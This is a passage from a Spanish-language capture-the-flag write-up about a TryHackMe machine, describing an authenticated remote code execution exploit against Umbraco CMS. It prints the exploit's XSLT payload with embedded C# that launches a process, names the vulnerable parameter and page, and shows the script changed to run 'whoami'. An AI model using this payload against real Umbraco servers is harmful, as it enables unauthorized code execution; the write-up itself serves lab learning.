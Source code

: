 ![anthem_page80_umbraco_login](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/THM/anthem/anthem_page80_umbraco_login.png)

...

* [Rabbit hole Umbraco](#umbraco-rabbit-hole).
* [Access with RDP](#access-with-rdp).

...

### ▿ Rabbit hole (`Umbraco exploitation`) {#umbraco-rabbit-hole}

> Que me gusto, aunque hubiera sido un rabbit hole :P

Recorriendo la página, podemos encontrar la versión del software, en este caso: `Umbraco versión 7.15.4`. Buscando exploits sobre esa versión encontramos uno con el que ya había estado jugando en una máquina de `HackTheBox`, concretamente en `Remote` (de la cual [tengo un writeup](https://lanzt.github.io/blog/htb/HackTheBox-Remote), el cual me sirvió para guiarme sobre como conseguir una reverse Shell).

(La mayoría de referencias las reutilizaré de ese writeup, solo pa decirlo :P)

* [Umbraco CMS 7.12.4 - (Authenticated) Remote Code Execution](https://www.exploit-db.com/exploits/46153).

Bien, descargándolo y viendo el código, debemos modificar algunas líneas, tales como:

* login: el usuario (email).
* password: pues la password :P
* host: donde está alojado el CMS `Umbraco` (IP de la máquina).

El proceso de explotación se da por la falta de sanitizacion de la variable `ctl00$body$xsltSelection` del archivo `/umbraco/developer/Xslt/xsltVisualize.aspx`. En el que podemos enviar nuestro payload sin ningún problema.

El payload que usa el exploit es este:

```py
payload = '<?xml version="1.0"?><xsl:stylesheet version="1.0" \\
xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:msxsl="urn:schemas-microsoft-com:xslt" \\
xmlns:csharp_user="http://csharp.mycompany.com/mynamespace">\\
<msxsl:script language="C#" implements-prefix="csharp_user">public string xml() \\
{ string cmd = ""; System.Diagnostics.Process proc = new System.Diagnostics.Process();\\
 proc.StartInfo.FileName = "calc.exe"; proc.StartInfo.Arguments = cmd;\\
 proc.StartInfo.UseShellExecute = false; proc.StartInfo.RedirectStandardOutput = true; \\
 proc.Start(); string output = proc.StandardOutput.ReadToEnd(); return output; } \\
 </msxsl:script><xsl:template match="/"> <xsl:value-of select="csharp_user:xml()"/>\\
 </xsl:template> </xsl:stylesheet> ';
```

Como prueba de concepto, abre una calculadora, pero nosotros no queremos eso, intentemos ejecutar el comando `whoami`:

(Algo importante es que al final debemos indicarle que nos muestre la respuesta del request)

```py
# Step 4 - Launch the attack
r4 = s.post(url_xslt,data=data,headers=headers);

print(r4.text)
```
